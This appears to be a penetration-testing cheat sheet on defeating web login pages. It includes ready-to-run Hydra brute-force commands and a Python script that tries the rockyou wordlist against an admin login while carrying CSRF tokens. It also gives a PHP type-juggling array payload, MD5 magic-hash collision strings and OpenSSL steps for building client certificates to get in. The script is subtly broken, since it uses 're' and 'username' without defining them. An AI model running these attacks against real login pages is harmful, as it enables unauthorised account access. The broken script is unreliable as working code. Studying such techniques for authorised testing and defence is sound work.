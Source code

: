 ```yaml
---
description: >-
  We can find some login panes that we want to bypass or bruteforce. Here you
  can find some amazing tricks.
---
```


# Login Panes

## Bruteforce it!

### Hydra

hydra is a powerful network service attack tool that attacks a variety of protocol authentication schemes, including SSH and HTTP.

#### POST Forms

```
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-form-post "/index.php:user=^USER^&password=^PASS^:Invalid Credentials"

-l user
-L user wordlist
-p password
-P password wordlist
```

### Basic Auth

```
hydra <ip-addr> -l user -P passwords.txt -s <port> -vV -f http-get /index.php
```

### My own script

I made my own script in order to bruteforce some login panes with CSRF protection. I think is a good alternative to the Burpsuite **Pitchfork attack.**

```
#!/usr/bin/env python3

import sys, os, requests, codecs

s = requests.Session()

# Get CRSF TOKEN
resp = s.get("https://WEBPAGE.LOCAL/", verify=False)
regex = '<input type="hidden" name="csrf" value="(.*)"'
token = re.search(regex,resp.text).group(1)

with codecs.open("/usr/share/wordlists/rockyou.txt", 'r', encoding='utf-8', errors='ignore') as wordlist:
	dic = wordlist.read().splitlines()
	for pwd in dic:

		#Bruteforce
		data_post = {
			"csrf" : token,
			"username" : "admin",
			"password" : pwd,
		}
		print("[!] Trying: " + pwd)
		resp2 = s.post("https://WEBPAGE.LOCAL/login", json=data_post, verify=False)
		if "permission_denied" not in resp2.text:
			print("Username = " + username + "Password = " + pwd)
			sys.exit(0)	
```

## Bypass it!

The are very different methods to bypass a login pane, this are the most common ones.

### SQLi

There are more info to bypass login panes with SQL Injections in:

{% content-ref url="sqli.md" %}
[sqli.md](sqli.md)
{% endcontent-ref %}

### PHP Type Juggling (==)

How PHP’s type comparison features lead to vulnerabilities and in that case to bypass the login. Loose comparisons (==) have a set of operand conversion rules to make it easier for developers.

Let's check the differences between Strict comparisons (===) and Loose comparisons (==).

![PHP Strict comparison](../.gitbook/assets/2021-02-18\_212144.png)

![PHP Loose comparison](../.gitbook/assets/image.png)

When we find some code like this:

```
if($_POST['password'] == "secretpass")
```

Instead of send a string we send an array we will bypass the login:

```
username=admin&password[]=
```

{% embed url="https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf" %}

#### Magic Hashes

This particular implication for password hashes wen the operator equals-equals(==) is used. The problem is in == comparison, the 0e means that if the following characters are all digits the whole string gets treated as a float. Below is a list of hash types that when hashed are ^0+ed\*$ which equates to zero in PHP when magic hashes typing using the “==” operator is applied. That means that when a password hash starts with “0e…” as an example it will always appear to match the below strings, regardless of what they actually are if all of the subsequent characters are digits from “0-9”.

```
# MD5
240610708 - 0e462097431906509019562988736854
QNKCDZO   - 0e830400451993494058024219903391
aabg7XSs  - 0e087386482136013740957780965295
```

{% embed url="https://www.whitehatsec.com/blog/magic-hashes/" %}

## Client Certificates

**SSL/TLS** certificates are commonly used for both encryption and identification of the parties, sometimes this is used instead of credentials at login.

### Setting up the private key and the certificate (Server)

First of all, we need to generate our keys and certificates. We use the `openssl` command-line tool.

```
openssl req -x509 -newkey rsa:4096 -keyout server_key.pem -out server_cert.pem -nodes -days 365 -subj "/CN=localhost/O=Client\ Certificate\ Demo"
```

### Setting up client certificates

To create a key and a Certificate Signing Request for Alice and Bob we can use the following command:

```
openssl req -newkey rsa:4096 -keyout alice_key.pem -out alice_csr.pem -nodes -days 365 -subj "/CN=Alice"
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/CN=Bob"
```

#### Server Signed Certificate:

```
openssl x509 -req -in alice_csr.pem -CA server_cert.pem -CAkey server_key.pem -out alice_cert.pem -set_serial 01 -days 365
```

Maybe during the pentest we found the server key, remember that **we can download the server certificate** with the browser.

![](../.gitbook/assets/cert.png)

#### Self-Signed Certificate:

```
openssl x509 -req -in bob_csr.pem -signkey bob_key.pem -out bob_cert.pem -days 365
```

### Trying to get in

To use these certificates in our browser or via curl, we need to bundle them in PKCS#12 format.

```
openssl pkcs12 -export -clcerts -in alice_cert.pem -inkey alice_key.pem -out alice.p12
openssl pkcs12 -export -in bob_cert.pem -inkey bob_key.pem -out bob.p12
```

#### Via Browser

`Settings -> Privacy & Security -> Security -> Certificates -> View Certificates... -> Your Certificates -> Import`

![](../.gitbook/assets/importcert.png)

#### Via Curl

```
curl --insecure --cert mvc1009.p12 --cert-type p12 https://localhost:443/
```

{% embed url="https://medium.com/@sevcsik/authentication-using-https-client-certificates-3c9d270e8326" %}

## References:

* [https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/](https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/)
* [https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)
* [https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp)
* [https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
